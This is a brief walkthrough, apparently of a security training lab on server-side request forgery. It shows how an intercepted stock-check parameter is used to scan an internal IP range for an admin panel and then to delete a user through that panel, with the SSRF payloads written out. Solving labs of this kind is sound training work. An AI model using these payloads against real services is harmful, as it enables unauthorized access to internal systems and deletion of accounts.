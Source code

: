# Basic SSRF against another back-end system

## This lab has a stock check feature which fetches data from an internal system.

## To solve the lab, use the stock check functionality to scan the internal `192.168.0.X` range for an admin interface on port 8080, then use it to delete the user `carlos`.

### step1

intercept the check functionality
send to intruder

## stockApi=http://192.168.0.§1§:8080/admin

set payload number
add range 1 to 255
and steps 1

## stockApi=http://192.168.0.230:8080/admin

at 230 it successful to get admin panel

### step2

again intercept heck functionality

## stockApi=http://192.168.0.230:8080/admin/delete?username=carlos

